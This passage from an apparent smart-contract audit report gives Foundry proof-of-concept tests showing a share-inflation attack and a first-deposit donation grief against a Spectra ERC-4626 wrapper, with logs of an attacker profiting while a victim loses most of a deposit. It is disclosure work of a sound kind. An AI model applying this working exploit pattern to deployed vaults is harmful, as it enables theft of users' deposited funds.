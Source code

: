```solidity

        ISpectra4626Wrapper(_wrapper_).wrap(199e17, victim);

        // attacker in profit after second deposit
        attackerBalance = ISpectra4626Wrapper(_wrapper_).balanceOf(user);
        console.log("Attacker balance: %d, ~1000.7 RLP", ISpectra4626Wrapper(_wrapper_).previewUnwrap(attackerBalance));
        
        // victim is in loss
        uint256 victimBalance = ISpectra4626Wrapper(_wrapper_).balanceOf(victim);
        console.log("Victim balance: %d, ~38.02 RLP", ISpectra4626Wrapper(_wrapper_).previewUnwrap(victimBalance));
    }
```

```text
[PASS] test_inflation_attack() (gas: 782938)
Logs:
  Attacker balance: 999901960784313726471, ~999.9 RLP
  Attacker balance: 1000769971126082772859, ~1000.7 RLP
  Victim balance: 38029258902791145368, ~38.02 RLP
```

As the test shows, the attacker can steal and accumulate a portion of other users deposits.

**The second test example:**

Add the following test to `SpectraWrappedRLPTest.t.sol` : 

```solidity
    function test_initial_deposit_grief() public virtual {
        
        address alice = makeAddr("alice");
        address bob = makeAddr("bob");
        _ibt_deposit(alice,11e18 + 10);
        uint256 initialAssetBalance = IERC20(_vaultShare_).balanceOf(alice);
        console.log("attacker balance before : ");
        console.log(initialAssetBalance);
        _approve(_vaultShare_, alice, _wrapper_, 1e18);

        vm.startPrank(alice);
        ISpectra4626Wrapper(_wrapper_).wrap(10, alice);
        // donate
        IERC20(_vaultShare_).transfer(_wrapper_, 11e18);
        vm.stopPrank();

        _ibt_deposit(bob,1e18);
        _approve(_vaultShare_,bob, _wrapper_, 1e18);
        vm.startPrank(bob);
        ISpectra4626Wrapper(_wrapper_).wrap(1e18, bob);

        uint256 bobShares = IERC20(_wrapper_).balanceOf(bob);
        console.log("bob shares : ");
        console.log(bobShares);
        vm.stopPrank();

        vm.startPrank(alice);
        ISpectra4626Wrapper(_wrapper_).unwrap(10, alice, alice);
        uint256 afterAssetBalance = IERC20(_vaultShare_).balanceOf(alice);
        console.log("attacker balance after : ");
        console.log(afterAssetBalance);
    }
```
